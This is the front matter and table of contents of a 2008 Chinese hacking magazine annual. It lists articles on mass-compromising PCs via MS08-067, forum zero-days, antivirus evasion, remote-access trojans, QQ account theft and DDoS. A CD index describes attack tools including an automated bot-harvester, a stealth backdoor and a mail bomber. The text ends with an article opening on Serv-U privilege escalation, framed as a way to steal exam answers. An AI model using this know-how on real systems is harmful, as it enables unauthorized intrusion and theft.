# 黑客X档案合订本2008年（下）第一部分

---

### 《黑客X档案》畅销系列丛书——菜鸟 Hacker 进化最佳教程

### 2008 黑客X档案合订本下载

WWW.HACKERXFILES.NET  WWW.HACKERXFILES.NET

### 经典漏洞剖析

- 微软最新 MS08-067 漏洞批量抓肉鸡大法
- Discuz! WAP 最新 0DAY 漏洞大曝光
- 网站提权：我用本地漏洞 Windows Token Kidnapping
- 最新的 Discuz! NT2.5 漏洞来报道了
- 小菜抓鸡之 dedecms、phpcms 最新漏洞的利用
- 菜鸟也来玩 phpwind、discuz、sablog 最新漏洞
- PHPWind 管理权限泄露漏洞之利用
- 飞天论坛最新 0day 漏洞助小菜肉鸡成群
- 跟我学风讯最新注入漏洞的利用

### 飞鸽乐园

- 菜鸟免杀基础三步走
- 玩转局域网 ARP 攻击
- 教菜鸟四步成为免杀高手
- 轻松实现木马配置和动态域名上线
- 免杀之利用异或算法加密特征码
- 病毒启动大盘点

## X菜鸟课堂

- 跟我学服务器提权（下）
- 肉鸡保卫战（上）
- 肉鸡保卫战（下）
- 如何让你的操作系统变得更安全
- 菜鸟也来学配置服务器之搭建 ASP 环境篇
- 菜鸟也来学配置服务器之搭建 ASP.NET 环境篇

### 精彩内容一览

- 揭秘“北大主站被黑”事件
- 曲折的入侵和 MS08-067 提权
- 青出于蓝而胜于蓝的 PaINRAT
- Q币，刷！刷！刷！
- 炽天使 4.0 黑客X档案专版使用手记
- 批量抓肉鸡之我用 Tomcat
- 不用 360 破解版照样免费用 Nod32
- 小菜再入侵和讯官方网站
- 反弹木马编写
- 从零开始学破解系列文章




## 黑客X档案 2008 合订本（下卷）



## 《黑客X档案》2008年合订本（下卷）

- 出品人：孙胜利
- 主编：杨冬柱
- 编辑部主任：丛林
- 编辑部：sagi / 呆呆虫 / 虫虫 / 咖啡 / 黄色潜水艇 / 笨牛牛
- 特约编辑：ww0830 / zj1244 / 阿布 / hackest / 姜超 / 孟方明 / Talent Feng
- 光盘部：战神 MARS
- 设计：谭海梅
- 排版：Bifrost
- 发行部总监：湛颖
- 联系电话：010-88561473
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币 32.00 元（光盘+手册）

**声明**：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关费用。如有相关问题，请作者及时与我们联系。


## 菜鸟学堂

- 2008.07 菜鸟师徒行——跟我学服务器提权（下）……9
- 2008.08 菜鸟师徒行——肉鸡保卫战（上）……15
- 2008.09 菜鸟师徒行——肉鸡保卫战（下）……22
- 2008.10 菜鸟师徒行——如何让你的操作系统变得更安全？……29
- 2008.11 菜鸟也来学配置服务器之搭建 ASP 环境篇……37
- 2008.12 菜鸟也来学配置服务器之搭建 ASP.NET 环境篇……44

## QQ宝典

- 2008.07 无限QQ钻石任你刷……49
- 2008.07 三剑客助我海量靓Q……49
- 2008.07 详论QQ安全登录之策略……51
- 2008.07 无敌代码打造靓图QQ号……53
- 2008.08 让花匠学徒也能演绎五级花……54
- 2008.08 动动手，瞬间刷出QQ空间上亿的人气……55
- 2008.08 QQ盗号从此我不怕……55
- 2008.08 QQ币免费获取小秘籍……57
- 2008.09 免费装扮漂亮可爱的QQ空间……58
- 2008.09 利用QQ飞车地址提权，获得QQ多种权限……59
- 2008.09 鲜为人知的免费黄钻活动……60
- 2008.09 找回QQ好友有新招……61
- 2008.09 超级无敌破解QQ加密空间查看相册……62
- 2008.10 Q币，刷！刷！刷！……62
- 2008.10 QQ免费建群我也会……63
- 2008.10 QQ空间日志流量刷到爆……64
- 2008.10 QQ邮箱盗号又来新招……65
- 2008.11 免费使用黄钻饰品、盗取别人空间模块……66
- 2008.11 通过合法途径充值你的Q号……66
- 2008.11 另类QQ扫号大法……67
- 2008.11 QQ2008常见攻击方法大揭秘……68
- 2008.11 看我不需密码进入加密空间或相册……69
- 2008.12 两秒钟点亮穿越火线图标……69
- 2008.12 菜鸟式纯操作破解QQ聊天……70
- 2008.12 拿什么拯救你——我的QQ……70
- 2008.12 对“零工具反彩虹QQ探隐身”的补充……72
- 2008.12 两条在网吧实用的QQ会员功能……72
- 2008.12 突破QQ缤钻权限，让空间唱起来……73

## 网吧黑客

- 2008.07 零工具再创网吧免费上网神话……74
- 2008.07 徒手搞定整个机房……74
- 2008.07 使用OD破解PUBWIN4实现免费上网……77
- 2008.08 看我怎么干掉任子行网吧管理系统……78
- 2008.08 再破HR2004机房登录系统……79
- 2008.09 破解PUBWIN4，网费任意加……80
- 2008.09 谁说没有免费的“午餐”……81
- 2008.10 徒手也玩 iKeeper 免费上网……81
- 2008.10 让网吧破解所向无敌……82
- 2008.10 超级傻瓜式破解PUBWIN2007……84
- 2008.11 看我用OE来破解网吧下载限制……84
- 2008.11 破解金盘之我用粘滞键后门……86
- 2008.12 破解网吧收费系统之终极版……88
- 2008.12 虚拟桌面也来免费上网……89
- 2008.12 MS08-067漏洞助我入侵网吧服务器……89

## 傻瓜黑客

- 2008.07 蚂蚁军团的力量之流量也来洗刷刷……91
- 2008.07 巧破互联星空的多用户共享……92
- 2008.07 菜鸟的好帮手——完美DDoS……93
- 2008.07 揭开网页木马的神秘面纱……94
- 2008.07 制作陷阱之SHS碎片文件……95
- 2008.07 禁止运行非法程序——从QQ说起……96
- 2008.07 把机密文件隐藏到回收站……98
- 2008.07 看菜鸟玩转映像劫持……99
- 2008.07 小菜这样来拯救迅雷……99
- 2008.08 内网之灰鸽子上线又有新招……100
- 2008.08 菜鸟也来用autorun.inf传播木马……101
- 2008.08 盗取UC号码之奇思异想……102
- 2008.08 看我免费用瑞星……103
- 2008.08 将校园共享进行到底……104
- 2008.08 将秘密锁进DLL里……105
- 2008.08 教你利用网页压缩来跨站挂马……105
- 2008.08 解决WinXP重装后“火牛安全”拒绝访问的故障……107
- 2008.08 文件夹加密，你真的是安全吗？……107
- 2008.08 利用星空极速来盗取宽带密码……109
- 2008.08 锁住你的Internet……110
- 2008.08 看我用图片来查你IP地址……112
- 2008.08 一分钟KO瑞星——论杀毒软件的自我保护……114
- 2008.09 免费使用，还有金山毒霸……115
- 2008.09 如何禁止别人来使用U盘……116
- 2008.09 简单社会工程学之亲身体验……117
- 2008.09 论坛我就要免费的——免费打造属于自己的个人论坛……118
- 2008.09 教小菜免费得到付费的手机彩铃……119
- 2008.09 深入浅出之Windows共享……120
- 2008.09 针对未知U盘病毒最安全的打开方法……122
- 2008.09 文件的另类隐藏……122
- 2008.09 网站投票大家刷……124
- 2008.09 QQ钓鱼？从GOOGLE说起……125
- 2008.10 零工具反彩虹QQ探隐身……127
- 2008.10 一个月让网站挺进Alexa排名前10万……128
- 2008.10 免费电话在线打……130
- 2008.10 又一款免费的VPN——relakks……130
- 2008.10 灰鸽子内网上线新方法……131
- 2008.10 一分钟用WinRAR制作破坏系统程序……132
- 2008.10 系统问题，WinPE帮你搞定……133
- 2008.10 通杀Windows 2000和2003的输入法……135
- 2008.10 纯手工忽悠木马攻略……136
- 2008.10 小菜也来学简单电子邮箱攻击及防范……137
- 2008.10 教菜鸟编写批处理无限使用卡巴斯基……138
- 2008.10 映像劫持制作CMD加速器……139
- 2008.11 “刷”百度空间流量的好工具——百度无名访客……139
- 2008.11 Nod32也刷半年激活码……140
- 2008.11 巧借网站制作邮箱炸弹……140
- 2008.11 一起跟我来初识DRDoS……141
- 2008.11 用赛门铁克弥补UAC的不足之处……142
- 2008.11 你的个人移动虚拟PC——Prayaya V3……142
- 2008.11 菜鸟轻轻松松做动画……144
- 2008.11 破解不出管理员密码照样进后台……147
- 2008.11 基于WAP的远程控制……148
- 2008.12 简单测试黑客工具中是否含有后门……149
- 2008.12 利用下载软件制作隐藏的DOS炸弹……149
- 2008.12 手把手教你制作“WinRAR自解压补丁生成器”……150
- 2008.12 不用360杀毒版照样免费用Nod32……152
- 2008.12 突破邮件群发，实现网络暴力营销……152
- 2008.12 3GQQ幻想西游，我用电脑玩……154
- 2008.12 小心“黄山IE修复专家”中的猫腻……155
- 2008.12 全国计算机等级考试上机不会做也可以拿满分……156
- 2008.12 守护你的小马——隐藏小马引发的讨论……157

## 牧马记

- 2008.07 “格格巫”摇身一变成木马……159
- 2008.07 gh0st 轻松绕过卡巴主动防御……161
- 2008.07 浅谈输出表免杀……164
- 2008.07 隐形后门让我们的肉鸡更安全……166
- 2008.08 只要有“微笑”，就会有“肉鸡”……167
- 2008.08 剑走偏锋！看我如何过卡巴……169
- 2008.08 dll 文件捆绑打造可交互式后门……170
- 2008.08 再谈输入表免杀……172
- 2008.09 和我一起来试用小锋远程控制……174
- 2008.09 让 shift 后门穿透系统文件保护……176
- 2008.09 为木马的入侵开路……177
- 2008.10 炽天使 4.0 黑客X档案专版使用手记……178
- 2008.10 远程控制的新选择——DarkstRat2008……181
- 2008.10 全手动打造“寄生虫”后门……183
- 2008.11 青出于蓝而胜于蓝的 PaiNRAT……183
- 2008.11 教小菜使用后门程序 hway……187
- 2008.11 让内网玩木马更方便……188
- 2008.12 专过360安全卫士的 SRAT……189
- 2008.12 国外优秀的远控软件——Spy-Net……191
- 2008.12 类似灰鸽子的“小牛远控”……193

## 毒龙

- 2008.07 遭遇奇怪的 MS-DOS.com 病毒……195
- 2008.07 看小菜我来剥病毒的皮……195
- 2008.08 小菜的无名病毒遭遇战……197
- 2008.09 设置文件权限让驱动级木马露马脚……198
- 2008.09 Autorun.inf 光荣复活……199
- 2008.10 杀毒遗留问题面面观……199
- 2008.10 完美搭配，打造自己完美的毒盘……201
- 2008.11 打好木马反击战……201
- 2008.11 遭遇“U盘无法写入”病毒……204
- 2008.12 记事本也杀毒……204
- 2008.12 病毒的另类启动方式……205

### 侠隐江湖

- 2008.07 鬼网超生（三）神秘的端口……206
- 2008.08 鬼网超生（四）向病毒相将的访客……208
- 2008.09 鬼网超生（五）宿命，即便是悲哀也要勇敢地面对……210
- 2008.10 鬼网超生（六）荒芜的记忆……213
- 2008.11 鬼网超生（七）缺失的记忆……215
- 2008.12 鬼网超生（八）白发人与贩毒公司……217

## 一个人的战争

- 2008.07 PHPWind 管理权限泄露漏洞之利用……220
- 2008.07 跟小菜再来玩动网 PHP2.0 漏洞……222
- 2008.07 一次利用社会工程学的渗透……224
- 2008.07 对步步高官方网站的安全检测……226
- 2008.07 让小子都来学会 PHP 注入……229
- 2008.07 注入漏洞，别忘了 BBSXP2008……231
- 2008.07 艰难的由 WebShell 到 ROOT 权限的过程……234
- 2008.08 跟我学风讯最新注入漏洞的利用……237
- 2008.08 批量抓肉鸡之我用 Tomcat……238
- 2008.08 看小菜再续 phpwind 漏洞之利用……241
- 2008.08 eWebEditorNet 上传漏洞简单用……243
- 2008.08 入侵网游代练网……244
- 2008.08 对国家药典委员会的一次安全检测……245
- 2008.08 用 cookie 来注入网讯企业网站管理系统……247
- 2008.08 一个论坛帐号引发的故事……249
- 2008.09 菜鸟也来玩 phpwind、discuz、sablog 最新漏洞……252
- 2008.09 记一次某彩票网站的沦陷……255
- 2008.09 对某整站系统的入侵……257
- 2008.09 Joomla 助我轻松拿 WebShell……260
- 2008.09 公司网站漫游记……261
- 2008.09 入侵 androidcn 中文网……265
- 2008.09 对某黑客站点的一次渗透……266
- 2008.10 最新的 Discuz!NT2.5 漏洞来报道了！……269
- 2008.10 小菜抓鸡之 dedecms、phpcms 最新漏洞的利用……271
- 2008.10 飞天论坛最新 0day 漏洞助小菜肉鸡成群……272
- 2008.10 一款适合小菜的木马扫描器的使用和改进……274
- 2008.10 利用隐藏注入点注入和讯官方网站……278
- 2008.10 看我来入侵双飞燕官方网站……280
- 2008.10 和我一起来体验 PHP168 最新漏洞……282
- 2008.11 WebLogic 简单抓鸡大法……284
- 2008.11 网站提权，我用本地漏洞 Windows Token Kidnapping……286
- 2008.11 php 漏洞的 exp 利用方法……288
- 2008.11 对江西电信的一次怒吼……289
- 2008.11 艰难的后台拿 shell 大作战……291
- 2008.11 突破一流过滤系统多层陷阱下 webshell……293
- 2008.11 由目标数据库开放引发的入侵……295
- 2008.11 看菜鸟如何来报仇……298
- 2008.11 “揭秘”北大主站被黑事件……300
- 2008.12 微软最新 MS08-067 漏洞批量抓肉鸡大法……302
- 2008.12 Discuz! WAP 最新 0DAY 漏洞大曝光……305
- 2008.12 小菜来玩 PHPCMS 更改管理员密码漏洞……306
- 2008.12 小菜抓鸡，别忘了 DeDeCMS 新漏洞……308
- 2008.12 简陋后台之 WebShell 的获取……310
- 2008.12 小菜再来入侵和讯官方网站……311
- 2008.12 曲折的入侵和 MS08-067 提权……315

### 安全帮

- 2008.07 电脑安全的利器——Shadow Defender……318
- 2008.07 文件夹监控，“搜索助手”就够了……320
- 2008.07 运用 WinHex 从文件系统底层绕过顽固木马……321
- 2008.08 跟我学从根本上防御 FLASH 漏洞……323
- 2008.08 保护你的 VNC……324
- 2008.08 安全，从下载软件开始……327
- 2008.09 我有金钟罩，数据不会掉……327
- 2008.09 菜鸟初学 Windows 账户密码安全……329
- 2008.09 和我一起来认识 SSM……331
- 2008.10 菜鸟让病毒站不起来……333
- 2008.10 让木马病毒无用武之地——墨者安全专家……334
- 2008.10 使用软件限制策略给 Windows 加个“岗哨”……335
- 2008.11 优秀的文件加密软件 AxCrypt……336
- 2008.11 卡巴离线升级包的制作方法……338
- 2008.11 Password Door 为你的程序加扇安全门……339
- 2008.12 轻点鼠标来解决杀毒后遗症……340
- 2008.12 系统备份利器——Phoenix Recover Pro6……341
- 2008.12 教小菜对抗驱动级病毒……342

### 黑客研究院

- 2008.07 和我一起来研究 MSSQL 2005 的注入……346
- 2008.07 某菜的 ASP 脚本 HACK 之旅……347

### CONTENT

- 2008.08 浅谈 VBS 脚本变形 ...... 350
- 2008.08 小菜也来玩 MD5 碰撞 ...... 351
- 2008.09 如何防范重复提交数据攻击 ...... 352
- 2008.09 对上传漏洞的简要分析 ...... 354
- 2008.10 又子之再来 SA 权限灵活入侵 ...... 357
- 2008.10 利用转发突破内网服务器终端连接限制 ...... 359
- 2008.11 浅谈 Windows 验证机制及缺陷 ...... 360
- 2008.11 小菜的 Ajax & Cookie 研究 ...... 363
- 2008.12 Windows 下的数据隐藏技巧 ...... 365
- 2008.12 小议 SA 的另类入侵 ...... 368

### 利刃园

- 2008.07 从零开始学破解之（二十二）内存补丁 DIY ...... 371
- 2008.07 多种方法来破解 LeapFTP ...... 374
- 2008.08 从零开始学破解之（二十三）牢牢抓住“注册码” ...... 375
- 2008.08 打造属于自己的 SDemo ...... 380
- 2008.09 从零开始学破解之（二十四）小菜也做注册机 ...... 380
- 2008.09 免杀的两条小经验 ...... 384
- 2008.09 木马免杀新技巧之壳中改将 ...... 385
- 2008.09 简简单单破解汉化 TVC ...... 386
- 2008.10 从零开始学破解之（二十五）探索隐藏的字符串 ...... 388
- 2008.10 超级持久免杀下载者 ...... 392
- 2008.10 免杀的注意事项及相关技巧 ...... 394
- 2008.10 和我一起来逆向分析免杀后门 ...... 395
- 2008.11 从零开始学破解之（二十六）遭遇“自杀代码” ...... 398
- 2008.11 手动破解注册码 ...... 400
- 2008.11 菜鸟来跟我免杀落雪过端星全监控 ...... 402
- 2008.11 对 BT 游戏“I wanna be the guy”的研究 ...... 403
- 2008.12 从零开始学破解之（二十七）神奇的万能断点 ...... 405
- 2008.12 软件的脱壳与修复 ...... 408

### 黑客编程

- 2008.07 反弹木马编写之 CMD 模拟 ...... 410
- 2008.07 动手打造 VISTA 版的 QQ 登录器 ...... 413
- 2008.08 超级挂机我做主 ...... 416
- 2008.08 卡巴，30 天后我继续试用你 ...... 417
- 2008.09 反弹木马编写之 3322 域名更新器 ...... 418
- 2008.09 QQ 游戏大厅多开补丁简单做 ...... 421
- 2008.10 用 QQ 防盗工具来盗 QQ ...... 423
- 2008.10 VB 版的网络神偷之木马的文件操控（上） ...... 425
- 2008.11 U 盘病毒新变种之文件夹杀手 Delphi 造 ...... 429
- 2008.11 VB 版的网络神偷之木马的文件操控（下） ...... 430
- 2008.12 反弹木马编写之进程控制 ...... 434
- 2008.12 日记加密自己编 ...... 437

### 主题乐园

- 2008.07 教菜鸟四步成为免杀高手 ...... 440
- 2008.08 轻松实现木马配置和动态域名上线 ...... 446
- 2008.09 菜鸟免杀基础三步走 ...... 451
- 2008.10 玩转局域网 ARP 攻击 ...... 460
- 2008.11 免杀之利用异或算法加密特征码 ...... 464
- 2008.12 病毒启动大盘点 ...... 471

### 投资咨询

- 2008 呆呆虫问吧 ...... 476

### 光盘索引

**QQ 防盗登录器 2.0：**  
采用腾讯一样的 HASH 加密算法，该算法不可逆！绝对不会让任何 QQ 自动登录，完全达到防盗号与防密码移植！

**FPipe：**  
是一个源端口重定向器。它可以使用你选择的源端口建立一个 TCP 或 UDP 流，这在穿越那些允许 20 端口连接的防火墙从而进入内网时非常有用。

**天网防火墙：**  
天网安全实验室研发制作给个人计算机使用的网络安全工具。它根据系统管理者设定的安全规则（Security Rules）把守网络，提供强大的访问控制、应用过滤、信息过滤等功能。

**迅雷嗅嗅工具：**  
去掉迅雷黑屏广告；减少迅雷运行时占用的资源；让迅雷能用快车、旋风的链接；屏蔽迅雷偷偷上传用户下载的文件。

**Wsyscheck：**  
一款强大的系统检测维护工具，进程和服务驱动检查、SSDT 强化检测、文件查询、注册表操作、DOS 删除等一应俱全。

**SnipeSword：**  
狙剑是一个工具，其追求的目标是：“尽力让您看到您想看到的任何东西，包括被木马刻意隐藏的；努力让您能清掉您想清掉的任何东西，包括被木马恶意保护的。”至于看什么、清哪个，需要您自己来决定。

**网络搜索器（影音神探）4.73：**  
使用 WinPcap 开发包，嗅探流过网卡的数据并智能分析过滤，快速找到所需要的网络信息（音乐、视频、图片等）。软件智能化程度高，使用方便快捷。

**代理超人：**  
方便国内网民使用代理浏览国外网站。让上网者可以访问其他网络，提高大家访问一些原本访问速度很慢的服务器的浏览和下载速度，以及隐藏和清除你的上网痕迹、保护你的隐私，另外还可以监控和分析网络传输信息。

**按键精灵：**  
一个模拟鼠标键盘动作的软件。通过制作脚本，可以让按键精灵代替您的双手，自动执行一系列鼠标键盘动作。按键精灵简单易用，不需要任何编程知识就可以做出功能强大的脚本。

**Alexa 排名大师 2008：**  
一款功能强大的推进 Alexa 排名的工具，还可以有效提高流量。使用本软件，可以在网站中加入统计代码，流量会明显提高，而且统计来路中会显示这部分来路为“直接输入网址”。

**随心邮件炸弹：**  
程序本身自带 SMTP 服务器，可以直接轰炸到对方邮件地址，快速高效，请在允许范围内合法使用。

**烛天使 4.0 黑客 X 档案专版：**  
黑客 X 档案专版的烛天使 4.0，功能十分强大。

**易我分区表医生 3.0：**  
一款修复硬盘分区的软件，当你的驱动器发生错误（不是硬件错误）时，这个工具能自动检查并且修复你的 MBR、分区表和分区的引导扇区错误。

**Dvbbs 8.2.0：**  
该版本在稳步提高产品的稳定性、安全性、易用性的前提下，保留核心页面采用全新的模板驱动机制，重写自定义标签模块、重写编辑器、重写上传客户端模块、优化 UBB 代码等 RC1 版的增强功能。

**花刺代理验证（ProxyThorn）1.8：**  
为方便大家使用代理浏览国外网站，参照“代理之狐”设计。它具备了“代理之狐”和“代理猎手”所有主要功能，但使用更方便，验证结果更可靠。

**追影虚拟多桌面 V1.0.2：**  
一款小巧的桌面辅助工具，免费使用。它可以轻易将你的桌面虚拟成多个桌面，在各个桌面上进行不同的工作，按下热键即可进行任意切换，极大地方便了任务的管理。

**TenyQQ v2.0：**  
一款业余挂 QQ 的小工具。使用它，您再也不必为了挂 QQ，开多个 QQ 客户端而占用过多系统资源而烦恼。TenyQQ 使用了多线程的工作方式，确保每个正在登录的 QQ 互不干扰，稳定运行。

**Eset 升级账号获取器：**  
一键获取正版 Nod32 升级账号与升级密码；一键复制账号、密码。

**爱博邮件群发软件：**  
著名的邮件群发工具软件，可以使用 Gmail 的邮件群发，无需太多专业知识也可以轻松操作，模拟人工的邮件群发，基本不进垃圾邮件。

**Autorun 病毒防御者：**  
一款专门针对流行的 U 盘病毒开发的查杀程序。它独有的精确查杀与扩展查杀双查杀机制能够彻底清除病毒和木马的相关文件和注册表项，不留残余。配合独特的启发式查杀引擎，对未知 U 盘病毒拥有 90% 以上的识别率。

**狼牙全自动 MS08-067 抓鸡器：**  
MS08-067 自动抓鸡，填入 IP、端口、线程以及木马下载地址后点击开始抓鸡即可持续使用。传马时打开多个 Exploit 进行，提高了抓鸡效率。

**Phoenix Recover Pro 6：**  
新一代“一键恢复”领先国际，建立 PC 机数据“灾备”系统，电脑安全有保障，最省心的数据保护专家！PC 机数据复原备份的首选软件！

**BB FlashBack Pro 2.0.2：**  
一个强大易用的抓屏工具，可以将抓屏结果直接录存为 Flash 动画或 AVI 多媒体视频文件。

**Hway v3.0：**  
注册服务、利用 svchost.exe 启动（实现无启动项、无进程）+ 嗅探（实现无端口，并记录用户的 POST 数据和 FTP 密码）+ 线程保护后门。

**AxCrypt 1.6.4.4：**  
加密器，它可以对任何文件加密。

**Password Door：**  
为你电脑上安装的任何一个或者每个流行的软件增加密码保护的功能。像 WinZip、ACDSee、Office、IE 浏览器等软件本身没有密码保护特性，使用这个软件就可以为这些软件增加密码保护特性。

**手机顽童模拟器：**  
模拟更加迅速。sjboy 采用的是 SUN MIDP2.0 的实现框架，在此基础上进行了大量优化，使运行速度得到了提高；支持动态变换 Keycode；拍照功能；丰富的 API 实现。

**Sysinternals Suite：**  
是微软发布的一套非常强大的免费工具程序集。用好 Windows Sysinternals Suite 里的工具，你将更有能力处理 Windows 的各种问题，而且不花一毛钱。

**最新的 Discuz!NT2.5 漏洞利用工具：**  
Discuz!NT 2.5 是一款功能强大的基于 ASP.NET 平台的社区软件，最新漏洞的文件为 showuser.aspx，导致出现了 SQL 注入漏洞，并附奉献上利用代码 ice.aspx。

**飞天论坛 0day 漏洞利用工具：**  
飞天论坛最新 0day 漏洞加小菜肉鸡成群。

**深度文件图标提取器 V1.2：**  
本软件可以批量提取 exe、dll 等许多文件格式的图标数据并另外保存。图标大小的选项不能改变提取出来的图标大小，只能改变提取出来的格式为 jpg 的时候其文件大小。

**黑客之门 1.3：**  
采用目前一些先进的后门技术，它只有一个 dll 文件，通过感染系统文件启动自身，被感染的系统文件大小和日期都不会改变；同时采用线程插入技术，本身没有进程；它本身不开端口，而是重用系统进程开的任意一个端口，如 80、135、139、445 等，因此它的隐藏性是非常好的，而且穿透防火墙也是很容易的事情。


### 菜鸟赚钱行

## 限茂学院秀器提权（下）

周五杰（阿布）

“下周，我们学院就要进行期末考试，希望各位同学好好复习，争取一次考过，不要挂科！对了，考完试就可以放假回家了。好了，大家自己复习吧，系里还有点事，我先走了，大家保重。”辅导员便慢悠悠地走出了教室。随后同学们围绕考试展开讨论，阿布与燕妹关于回家、火车票和考试答案的对话推动了情节。阿布将所谓“数据结构答案”发给燕妹，叮嘱不要外传，燕妹提前交卷顺利返家，而阿布在考场睡着。文章由此引出：阿布究竟如何拿到考试答案——实际上与 Serv-U 提权有关。

#### 一、Serv-U 漏洞资料分析

本文先介绍 Serv-U。Serv-U 是广泛使用的 FTP 服务器软件，支持 Win9x/NT/2000/2003 等 Windows 系列，具备用户权限、目录与空间限制等管理能力。其管理参数保存有两种方式：INI 配置文件（ServUDaemon.ini）与注册表。Serv-U 管理进程默认监听 127.0.0.1:43958，管理连接需账号密码验证。文中指出默认管理账号可为 localAdministrator，且在特定版本中存在可被利用的风险。

漏洞由此产生：若攻击者可连接到 127.0.0.1 的 43958 管理端口，并发送特定管理命令，可对服务器上的 Serv-U 进行控制。由于 Serv-U 支持在服务端执行 CMD 命令，若满足系统管理员权限条件，可进一步执行高权限操作。文中还提到可通过 FTP 连接及命令执行实现提权，并可扩展到修改 INI 配置、端口转发、执行 EXE、脚本提权等多种利用方式。

#### 二、修改 INI 配置提权

该方式较为直接：修改 ServUDaemon.ini 配置文件即可。文件通常位于 `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`。默认情况下文件权限较严格，但若安装位置或权限配置不当，攻击者可能获得写权限并完成提权。



